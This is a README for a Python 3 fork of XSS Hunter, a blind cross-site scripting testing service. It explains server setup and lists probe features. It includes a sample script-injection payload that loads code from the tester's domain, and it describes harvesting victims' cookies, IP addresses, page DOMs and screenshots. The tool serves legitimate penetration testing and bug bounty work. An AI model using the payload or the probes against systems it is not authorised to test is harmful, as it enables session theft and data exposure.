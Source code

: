 # XSS Hunter Source Code
This is a portable version of the source code running on https://xsshunter.com. It is designed to be easily-installable on any server for security professionals and bug bounty hunters who wish to test for XSS in a much more powerful way. This fork of XSS Hunter has been refactored to be compatible with Python 3 and as such, some dependencies have changed. It is recommended to ensure you're using Python 3+ in your virtual environment.

**If you don't want to set up this software and would rather just start testing, see https://xsshunter.com .**

# Requirements
* A server running (preferably) Ubuntu.
* A [Mailgun](http://www.mailgun.com/) account, for sending out XSS payload fire emails.
* A domain name, preferably something short to keep payload sizes down. Here is a good website for finding two letter domain names: [https://catechgory.com/](https://catechgory.com/). My domain is [xss.ht](xss.ht) for example.
* A wildcard SSL certificate. This is required because XSS Hunter identifies users based off of their sub-domains and they all need to be SSL-enabled. Let's Encrypt now supports wildcard certificates.
    
# Setup
Original setup post: https://thehackerblog.com/xss-hunter-is-now-open-source-heres-how-to-set-it-up/  

**Setting Up DNS**   
The first thing you need to do is set up the DNS for your domain name so it is pointing to the server you’re hosting the software on. Only two records are needed for this:

A record:  
Key: YOURDOMAIN.COM  
Value: SERVER_IP  
CNAME record:  
Key *.YOURDOMAIN.COM  
Value: YOURDOMAIN.COM  
Those two records simply state where your server is located and that all subdomains should point to the same server.  

**Setting Up Dependencies**  
First, we need to install some dependencies for XSS Hunter to work properly. The two dependencies that XSS Hunter has are nginx for the web server and postgres for the data store. Setting these up is fairly easy, we’ll start with nginx:  

```sudo apt-get install nginx```  

After that, install postgres:  

```sudo apt-get install postgresql postgresql-contrib```  

Now we’ll set up a new postgres user for XSS Hunter to use:  
```
sudo -i -u postgres  
psql template1  
CREATE USER xsshunter WITH PASSWORD 'EXAMPLE_PASSWORD';  
CREATE DATABASE xsshunter;  
\q  
exit
```  

Now we have all the dependencies installed, let’s now move on to setting up the software itself.  

**Setting Up Source Code**  
Clone the Github repo:  

```git clone https://github.com/mandatoryprogrammer/xsshunter``` 

Now that we’ve cloned a copy of the code, let’s talk about XSS Hunter’s structure. The service is broken into two separate servers, the GUI and the API. This is done so that if necessary the GUI server could be completely replaced with something more powerful without any pain, the same going for the API.  

Let’s start by running the config generation script:  

```./generate_config.py``` 
Once you’ve run this script you will now have two new files. One is the config.yaml file which contains all the settings for the XSS Hunter service and the other is the default file for nginx to use. Move the default file into nginx’s configuration folder by running the following command:  

```sudo mv default /etc/nginx/sites-enabled/default```  
You must also ensure that you also have your SSL certificate and key files in the following locations:  

/etc/nginx/ssl/yourdomain.com.crt; # Wildcard SSL certificate  
/etc/nginx/ssl/yourdomain.com.key; # Wildcard SSL key  
(The config generation script will specify the location you should use for these files.)  

Now you need to restart nginx to apply these changes, run the following:  

```sudo service nginx restart```  

Awesome! Nginx is now all set up and ready to go. Let’s move on to the actual XSS Hunter service set up.  

Now let’s start the API server! Run the following commands:  

```sudo apt-get install python-virtualenv python-dev libpq-dev libffi-dev  
cd xsshunter/api/  
virtualenv env  
. env/bin/activate  
pip3 install -r requirements.txt  
./apiserver.py &  
```
The & after the ./apiserver.py command will run the server in the background. It can be terminated by restarting the host or by killing the process manually.  

In this new terminal let’s start the GUI server, run the following commands (in a new terminal):  

```cd xsshunter/gui/  
virtualenv env  
. env/bin/activate  
pip3 install -r requirements.txt  
./guiserver.py &  
```
Congrats! You should now have a working XSS Hunter server. Visit your website to confirm everything is functioning as expected. You can now detach from tmux by typing CTRL+B followed by D.  

# Summary of Functionality
*Upon signing up you will create a special short domain such as `yoursubdomain.xss.ht` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.xss.ht></script>`. XSS Hunter will automatically serve up XSS probes and collect the resulting information when they fire.*

# Features
* **Managed XSS payload fires**: Manage all of your XSS payloads in your XSS Hunter account's control panel.
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an XSS Hunter compatible tool is used) 
* **Full Page Screenshots**: XSS Hunter probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **Markup Report Generation**: Each XSS payload report comes with a pre-generated markdown report. These generated reports are also compatible with other markdown-supporting platforms such as Phabricator for easy bug reporting on company ticketing systems.
* **XSS Payload Fire Email Reports**: XSS payload fires also send out detailed email reports which can be easily forwarded to the appropriate security contacts for easy reporting of critical bugs.
* **Automatic Payload Generation**: XSS Hunter automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of XSS Hunter is the ability to correlated injection attempts with XSS payload fires. By using an [XSS Hunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the XSS Hunter service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after XSS Hunter has done it's thing? XSS Hunter offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **iOS Web Application**: It is also possible to view your XSS payload fires via an iOS web app. Simple navigate to the `/app` path and save the page as a web application to your iPhone's desktop.

# Notable Exploits
* Blind XSS in Tesla's internal servicing tool: https://samcurry.net/cracking-my-windshield-and-earning-10000-on-the-tesla-bug-bounty-program/
* Blind XSS in Spotify's Salesforce integration: https://mhmdiaa.github.io/blind-xss-in-spotify/
* Blind XSS in GoDaddy's support panel: https://thehackerblog.com/poisoning-the-well-compromising-godaddy-customer-support-with-blind-xss/

